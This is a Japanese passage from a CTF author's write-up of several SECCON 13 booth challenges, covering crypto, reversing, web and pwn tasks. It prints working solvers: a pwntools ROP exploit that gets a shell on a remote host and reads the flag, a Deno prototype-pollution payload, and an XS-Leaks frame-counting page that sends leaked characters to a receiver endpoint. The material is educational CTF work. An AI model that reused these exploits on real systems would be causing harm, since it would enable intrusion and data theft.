x = 302825260919317779466638288706941757478119936504864503289299111810878557424069832851837952929397907929396668240458993245662741522591539210493306557224673507192171095532552008396687356525313836501117714017702880902013061423179550493813470620956236263763510927657899587551000326509836294794948423351121777067521675908878203343378571238778872260377769563951765315203164771192344115744888944635103673374760547507150197387248980588584664707496184797486345139870127142403853041203948936595396757260050089360185668376949219377211437731767603055237909466371770346897408000000000000000
factors = factor(x)

MAX_FLAG = x // ((2 ^ 40) ^ 42)
MAX_DUPLICATE_FACTOR = 5

valid_factors = []
current_flag = 1
for factor, power in factors:
    if factor >= 2 ^ 42:
        current_flag *= factor ^ power
    else:
        valid_factors.extend([factor] * min(power, MAX_DUPLICATE_FACTOR))
valid_factors = valid_factors[::-1]


def find_flag(count, max_count, index, current_flag):
    if count == max_count:
        return None
    if index == len(valid_factors):
        return None
    if current_flag > MAX_FLAG:
        return None

    if long_to_bytes(current_flag).startswith(b"Alpaca{"):
        return long_to_bytes(current_flag)
    ret = find_flag(count + 1, max_count, index + 1, current_flag * valid_factors[index])
    if ret:
        return ret
    return find_flag(count, max_count, index + 1, current_flag)


for max_count in range(1, 10):
    flag = find_flag(0, max_count, 0, current_flag)
    print(max_count, flag)
    if flag:
        break

```

**Flag: `Alpaca{A_dog_has_42_teeth.}`**

他の Crypto の問題が典型的なので、ある程度考察が必要な問題として出そうと思ったのですが、暗号を使ってそれをやると難易度が跳ね上がりがちなので、暗号をやる上で大事な計算量をざっくりと扱う問題にしました。

具体的には、計算量とはいっても「ワーストの計算量」にフォーカスするのではなく「アベレージの計算量」を考える、すなわちコーナーケースを考えなくても良い問題にしました。また、特定のアルゴリズムやデータ構造も必要ないようにしました。というのも、そうしたほうが競プロ的ではないからです。一般に競プロ的能力はCTFではなく競プロで鍛えればいいので、競プロ的な問題をCTFで出す必要性はあまり無いという考えでいます。

ちなみにLLLでも解けます。[クリプトマスターy011d4さん](https://x.com/y011d4)が教えてくれました。

おまけ:
```
>>> ord("*")
42
```

### [Rev] Slow Flag Printer (10 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/slow-flag-printer)_

C++言語のバイナリが与えられます。

実行するとフラグが1文字ずつ表示されていきますが、徐々に次の文字が表示されるまでの時間が長くなっていきます。数分待って`Alpaca{f`まで表示された様子:

```
$ ./challenge
flag: Alpaca{f
```

コンパイル元のコードは以下のようになっていました:
```c++
#include <chrono>
#include <cstdlib>
#include <ctime>
#include <iostream>
#include <thread>
#include <vector>

int main() {
    std::srand(0xdeadbeef);
    std::vector<char> encrypted_flag = {
        64,  109, 115, 103, 109, 115, 109, 17, 17,  23,  88,  98, 127, 49,
        122, 12,  126, 126, 81,  118, 21,  82, 122, 118, 117, 90, 121, 2,
        119, 21,  107, 78,  72,  91,  52,  72, 13,  94,  22,  16, 80,  80};
    int length = encrypted_flag.size();
    long long sleep_max = 1;

    std::cout << "flag: " << std::flush;

    auto start_time = std::chrono::system_clock::now();

    for(int i = 0; i < length; i++) {
        long long sleep_time = (std::rand() % sleep_max) + 1;
        std::this_thread::sleep_for(std::chrono::seconds(sleep_time));

        auto current_time = std::chrono::system_clock::now();
        auto duration = std::chrono::duration_cast<std::chrono::milliseconds>(
            current_time - start_time);
        long long elapsed_ms = duration.count();

        char c = encrypted_flag[i] ^ ((((elapsed_ms + 100) / 1000) % 128));
        std::cout << c << std::flush;

        sleep_max <<= 1;
        start_time = current_time;
    }
    return 0;
}
```

気合でリバーシングをすれば良いだけの問題ではあります。が、ちょっとだけ問題に細工をしていて、動的解析などで時間を待たずにフラグを出力しようとすると、フラグが壊れるようになっています。次の部分です:
```cpp
char c = encrypted_flag[i] ^ ((((elapsed_ms + 100) / 1000) % 128));
std::cout << c << std::flush;
```

しっかり静的解析をすればフラグが求まります。

**Flag: `Alpaca{fl4g_th4t's_l1v3d_m0r3_th4n_1k_yrs}`**

C++バイナリに入門する問題として作りました。

### [Web] dinosaur (8 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/dinosaur)_

コードはシンプルで、以下のDenoのコードが与えられます。

```js
// deno --no-prompt index.ts
try {
    Object.prototype[prompt("key")!] = prompt("value")!;
    const response = await fetch("http://localhost/");
    if (response.ok) console.log("Alpaca{REDACTED}");
} catch (error) {
    console.log("Error");
}
```

まず、`Object.prototype[prompt("key")!] = prompt("value")!;` で Prototype Pollution ができることがわかります。
続いて、`http://localhost/` を fetch します。その結果、`response.ok` が `true` だったときにフラグが表示されます。

実は Deno の `fetch` は `0` をURLとして参照することが知られています。
「Deno fetch prototype pollution」などで検索すると、辿りつけます。[ここ](https://github.com/KTH-LangSec/server-side-prototype-pollution/blob/main/deno/fetch/fetch.PoC.ts)にわかりやすいPoCもあります。

さて、では `0` を `https://google.com/` などに書き換えれば、`response.ok` は `true` になるでしょうか？

残念ながら Deno はデフォルトでネットワークアクセスを許可していません。
ネットワークアクセスをするにはオプションを指定する必要があります。

ということで、一見 `response.ok` を `true` にするのは不可能のように思えます。

では、ここで `http` 以外のスキームは使えないでしょうか？
ようはネットワークアクセスをせずに、`fetch` を成功させればいいわけです。

ここで `data` スキームが使えます。
例えば `data:,` を `0` にしてみると、`fetch("data:,")` が実行され、無事 `response.ok` が `true` になります。

Payload:
```
0
data:,
```

**Flag: `Alpaca{z4w4z4w4_f0r3st_4lp4ch4n}`**

Prototype Pollution に入門する問題として作りました。20分くらいで作ったため簡単な問題だと錯覚していましたが、Web強者も悩ませるボス問になってしまいました。でも良問のお墨付きを貰えて良かったです。自分も結構好きな問題です。

### [Pwn] Alpaca Wakekko (6 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/alpaca-wakekko)_

以下のC言語のソースコードが与えられます:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void wakekko() {
    const char *word = "alpaca";
    char ans[0x10];
    int pos = rand() % (strlen(word) - 1) + 1;
    printf("%.*s ", pos, word);
    gets(ans);
    if(strcmp(ans, word + pos) != 0) {
        system("echo ':('\n");
        exit(1);
    }
}

int main() {
    srand(time(NULL));
    while(1)
        wakekko();
    return 0;
}

__attribute__((constructor)) void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
```

`gets`でBOFがあります。また、`system`が使えそうです。

実行すると、以下のように`alpaca`の先頭何文字かが与えられるので、その残りを補完して`alpaca`を完成させなくてはいけないプログラムだとわかります:

```
$ ./challenge
alpac a
a lpaca
al paca
a lpaca
alp aca
alpac a
```

このやり取りを成立させつつ、BOFを起こすにはどうしたらよいでしょうか。

`strcmp`は`\x00`までしか評価しないので、`alpaca\x00`から始まるペイロードを送りつけて、かつ、`pos`を`0`にしてしまえば残りのペイロードは自由に構成できます。

BOF部分は色んな解法があると思いますが、自分は以下のように解きました:

```python
from pwn import *

e = ELF('./challenge')
p = remote("34.84.32.249", 56286, level="DEBUG")

p.recv()

payload = b"alpaca" + b"\x00" + b"A" * 13 + b"\x00" * 4 + p64(0x402004) + b"B" * 24
payload += p64(0x000000000040101a) * 47 # ret
payload += p64(e.plt["gets"])
payload += p64(0x0000000000401312) # mov rdi, rax; system

p.sendline(payload)

p.sendline(b"/bin/sh")
p.sendline(b"cat flag*")

print(p.recv())
```

**Flag: `Alpaca{congra_______tulations}`**

Ubuntu 24.04 での ROP に入門する問題として作りました。

### [Web] blue-note (6 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/blue-note)_

ノートを `iframe` で表示するWebアプリケーションが与えられます。サーバーのコードは次のようになっています:

```js
import Fastify from "fastify";
import view from "@fastify/view";
import fastifyCookie from "@fastify/cookie";
import ejs from "ejs";

const fastify = Fastify();

const notes = [
  { id: 1, title: "Note 1", content: "This is a note", adminOnly: false },
  { id: 2, title: "Note 2", content: "This is another note", adminOnly: false },
  { id: 3, title: "Flag", content: process.env.FLAG, adminOnly: true },
];

fastify.register(fastifyCookie, {
  secret: process.env.COOKIE_SECRET,
  parseOptions: {},
});

fastify.register(view, {
  engine: { ejs },
  root: "views",
});

const isAdmin = (req) => {
  const { valid, value } = req.unsignCookie(req.cookies.authenticated || "");
  return valid && value === "true";
}

fastify.get("/", async (req, res) => {
  const q = String(req.query.q);
  if (!q)
    return res.viewAsync("index.ejs", { notes: {} });
  const filteredNotes = notes.filter(note =>
    (note.title.includes(q) || note.content.includes(q)) &&
    (!note.adminOnly || isAdmin(req))
  );
  return await res.viewAsync("index.ejs", { notes: filteredNotes });
});

fastify.get("/note/:id", async (req, res) => {
  const { id } = req.params;
  const note = notes.find(note => note.id === Number(id) && (!note.adminOnly || isAdmin(req)));
  if (!note)
    return res.redirect("/");
  return await res.viewAsync("note.ejs", { note });
});

fastify.get("/admin", async (req, res) => {
  const secret = String(req.query.secret);
  if (secret === process.env.ADMIN_SECRET) {
    res.setCookie("authenticated", "true", { path: "/", httpOnly: true, signed: true });
    return res.redirect("/");
  }
  res.code(401).send(":(");
});

fastify.listen({ port: 3333, host: "0.0.0.0" });
```

admin 機能があり、admin だけが閲覧可能なノートにフラグがあります。

`iframe` を使用しているので、教科書的な [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) が可能です。それを素直に実装すれば解けます。

Solver:
```html
<!DOCTYPE html>
<html>

<head>
  <meta charset="utf-8">
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@picocss/pico@2/css/pico.min.css">
</head>

<body>
  <button>Run</button>
  <script>

    const openPopup = () => {
      let WW = window.open(
        'about:blank',
        'targetWindow',
        `toolbar=no,location=no,status=no,menubar=no,scrollbars=no,resizable=yes,left=${screen.width - 250},width=250,height=250`
      )
      return WW;
    };
    const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
    document.querySelector('button').addEventListener('click', async () => {
      window.WW = openPopup();
      await sleep(1000);
      solve("Alpaca{");
    });
    const leak = async url => {
      return new Promise(async (resolve) => {
        window.WW.location = url;
        await sleep(500);
        resolve(window.WW.length);
      })
    }
    const host = new URLSearchParams(window.location.search).get('host') || 'web';
    const S = " !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const solve = async (flag) => {
      console.log(flag);
      fetch("/receive?flag=" + flag);
      const result = await leak(`http://${host}:3333/?q=${encodeURIComponent(flag)}`);
      if (result > 0) {
        if (flag.endsWith("}")) return;
        for (let i = 0; i < S.length; i++)
          await solve(flag + S[i]);
      }
    }

  </script>
</body>

</html>
```

```js
import Fastify from "fastify";
import fs from "fs";
import path from "path";

const fastify = Fastify({
    logger: true
});

fastify.get("/", (request, reply) => {
    reply.type("text/html").send(fs.readFileSync(path.resolve("index.html")));
});

fastify.get("/receive", (request, reply) => {
    reply.send(JSON.stringify(request.query));
})

fastify.listen({ port: 5555, host: "0.0.0.0" });
```

**Flag: `Alpaca{B.EV4N5}`**

XS-Leaks に入門する教育的問題として作りました。

[Ark](https://x.com/arkark_) に指摘されて気づきましたが、button をクリックする処理は必要ありませんでした。

### [Rev] Concurrent Flag Printer (3 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/concurrent-flag-printer)_

Rustのバイナリが与えられます。

問題名に `Concurrent`、問題文に `並行処理にしなければフラグが出力されたのに😩` と書いてあり、実行するとフラグの値が毎回変わることから、並行処理が原因でフラグの出力が乱れていそうです。
問題名と問題文を読み忘れても解析すればじきにわかります。

_ところで、作問時にフラグを変更したあとにビルドできていなくて、配布したバイナリではフラグが作問時に適当にセットした`Alpaca{HELLOWORLD}`のままになっていました。ticket で報告が来て気づきましたが、正しいフラグに更新して再度解析してもらうのは、もし自分がプレイヤーだったらダル〜って思うので、スコアサーバーの方を修正して`Alpaca{HELLOWORLD}`のままにしました。Revへの愛が足りてなかった。以下は、正しいフラグだった場合の解説です。本質は変わりません。_

丁寧に解析しても解くことはできますが、ある程度解析した段階で、マルチスレッドでデータを共有しており、各スレッドが一文字ずつ順序をバラバラにしてフラグを構築していそう、ということがわかります。そのため、並行処理を何らかの方法で止めて実行すれば、順序を保ったまま正しいフラグを構築できるのではないかという発想にたどり着けます。

まず、マルチスレッドを独立で実行させるための前準備として、GDBで以下のコマンドを実行します:

```
set non-stop on
set mi-async on
b std::thread::Builder::spawn_unchecked
r
```

次に`c`を入力し、一定時間待ちます。`[Thread 0x7ffff7a006c0 (LWP 276294) exited]` のような出力が表示され、最初のスレッドでフラグ構築処理が終了したことを確認したら、`c 3`コマンドで残りのスレッドを実行させます。

これで、以下のようにフラグが得られます:

```
gef➤  [Thread 0x7ffff7a006c0 (LWP 276294) exited]
c 3
Will ignore next 2 crossings of breakpoint 1.  Continuing.
[New Thread 0x7ffff76006c0 (LWP 276377)]
[Thread 0x7ffff76006c0 (LWP 276377) exited]
[New Thread 0x7ffff72006c0 (LWP 276378)]
[Thread 0x7ffff72006c0 (LWP 276378) exited]
[New Thread 0x7ffff6e006c0 (LWP 276379)]
Alpaca{4lp4c4_c0mm4nd3r,_1s_th1s_th3_tru3_3nd?}flag:
[Thread 0x7ffff6e006c0 (LWP 276379) exited]
[Inferior 1 (process 276289) exited normally]
```

コードは以下のようになっていました:
```rust
use rand::Rng;
use std::sync::{Arc, Mutex};
use std::thread;
use std::time::Duration;

fn main() {
    let data: [u8; 47] = [
        0x6b, 0x2d, 0x1c, 0x11, 0x2, 0x2, 0x1a, 0x4f, 0x58, 0x1c, 0x44, 0x57, 0x57, 0x6b, 0x3c,
        0x53, 0x5d, 0x0, 0x59, 0x5a, 0xa, 0x57, 0x41, 0x5e, 0x73, 0x6e, 0x42, 0x2c, 0x2b, 0x1c,
        0x59, 0x42, 0x2c, 0x2b, 0x1c, 0x5b, 0x6c, 0x2b, 0x6, 0x7, 0x46, 0x6c, 0x6c, 0x5d, 0xa,
        0x5b, 0x42,
    ];
    let shared_key = Arc::new(Mutex::new(42));
    let data_len = data.len();
    let shared_index = Arc::new(Mutex::new(0));
    let data = Arc::new(data);

    let num_threads = 4;
    let mut handles = vec![];

    for _thread_id in 0..num_threads {
        let index_clone = Arc::clone(&shared_index);
        let data_clone = Arc::clone(&data);
        let key_clone = Arc::clone(&shared_key);

        let handle = thread::spawn(move || {
            let mut rng = rand::rng();
            while let Some(index) = {
                let mut idx = index_clone.lock().unwrap();
                if *idx < data_len {
                    let i = *idx;
                    *idx += 1;
                    Some(i)
                } else {
                    None
                }
            } {
                let sleep_time = rng.random_range(0..1000);
                thread::sleep(Duration::from_millis(sleep_time));

                let mut key = key_clone.lock().unwrap();
                let c = data_clone[index] ^ *key;
                if c.is_ascii_graphic() {
                    print!("{}", c as char);
                } else {
                    print!("\\x{:02x}", c);
                }
                *key = c;
            }
        });
        handles.push(handle);
    }

    print!("flag: ");
    for handle in handles {
        handle.join().unwrap();
    }
    println!();
}
```

**Flag: `Alpaca{4lp4c4_c0mm4nd3r,_1s_th1s_th3_tru3_3nd?}`**

マルチスレッド周りの動的解析を学ぶ + Rustバイナリに入門する問題として作りました。
